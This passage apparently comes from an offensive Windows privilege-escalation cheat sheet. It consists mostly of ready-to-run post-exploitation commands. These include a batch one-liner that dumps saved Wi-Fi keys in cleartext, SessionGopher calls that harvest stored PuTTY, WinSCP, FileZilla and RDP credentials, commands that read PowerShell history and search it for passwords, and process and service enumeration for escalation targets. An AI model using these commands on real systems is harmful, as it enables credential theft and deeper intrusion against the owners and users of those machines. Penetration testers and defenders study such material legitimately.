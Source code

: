 Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP
using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)

```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### Powershell history

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

## EoP - Processes Enumeration and Tasks

What processes are running?

```powershell
tasklist /v
net start
sc query
Get-Service
Get-Process
Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
```

Which processes are running as "system"

```powershell
tasklist /v /fi "username eq system"
```

Do you have powershell magic?

```powershell
REG QUERY "HKLM\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine" /v PowerShellVersion
```

